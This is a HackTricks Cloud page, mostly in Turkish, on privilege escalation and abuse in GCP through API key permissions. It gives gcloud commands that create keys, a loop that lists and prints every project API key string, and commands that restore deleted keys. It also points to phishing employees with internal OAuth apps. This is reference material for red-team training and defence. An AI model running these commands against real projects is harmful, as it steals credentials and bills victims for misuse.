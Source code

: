 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

Aşağıdaki izinler, API anahtarları oluşturmak ve çalmak için faydalıdır, belgelerden değil: _Bir API anahtarı, **bir uygulamayı herhangi bir ilke olmadan tanımlayan** basit bir şifrelenmiş dizedir. Kamu verilerine **anonim olarak erişmek** için faydalıdırlar ve API isteklerini projenizle **ilişkilendirmek** için kullanılırlar, bu da kota ve **faturalama** için geçerlidir._

Bu nedenle, bir API anahtarı ile o şirketin API kullanımınız için ödeme yapmasını sağlayabilirsiniz, ancak yetkileri yükseltme imkanınız olmayacaktır.

API Anahtarları hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

API anahtarları oluşturmanın diğer yolları için kontrol edin:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Proje içinde hangi API'lerin etkin olduğunu veya bulduğunuz API anahtarına uygulanan kısıtlamaları bilmediğiniz için, [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) aracını çalıştırmak ve **API anahtarı ile neye erişebileceğinizi kontrol etmek** ilginç olacaktır.

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Bu izin, **bir API anahtarı oluşturmayı** sağlar:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Not edin ki, varsayılan olarak kullanıcıların yeni projeler oluşturma izinleri vardır ve yeni projede Owner rolü verilir. Bu nedenle bir kullanıcı **bir proje oluşturabilir ve bu projede bir API anahtarı oluşturabilir**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Bu izinler **tüm apiKey'leri listeleme ve alma ile anahtarı alma** yetkisi verir:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Bu izinler, **silinmiş api anahtarlarını listelemenize ve yeniden oluşturmanıza** olanak tanır. **API anahtarı,** **geri yükleme** işlemi tamamlandıktan sonra **çıktıda verilir:**
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Diğer çalışanları oltalamak için Dahili OAuth Uygulaması Oluşturun

Bunu nasıl yapacağınızı öğrenmek için aşağıdaki sayfayı kontrol edin, bu eylem **`clientauthconfig`** hizmetine aittir [belgelere göre](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

